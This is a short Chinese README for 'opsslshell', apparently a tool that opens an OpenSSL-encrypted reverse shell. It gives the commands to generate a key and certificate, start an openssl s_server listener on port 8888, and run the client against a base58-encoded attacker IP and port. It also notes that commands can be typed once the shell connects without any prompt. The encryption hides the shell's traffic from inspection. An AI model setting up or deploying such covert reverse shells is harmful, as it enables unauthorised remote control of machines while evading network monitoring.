 # opsslshell

使用openssl实现流量加密的反弹shell工具
### 使用方法
服务端使用如下命令生成key.pem和cert.pem
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

然后开启监听
```
openssl s_server -quiet -key key.pem -cert cert.pem -port 8888
```

client端执行
```
main -t base58后的服务端ip:port
```
注意，shll反弹后没有连接成功的提示，直接执行命令即可。

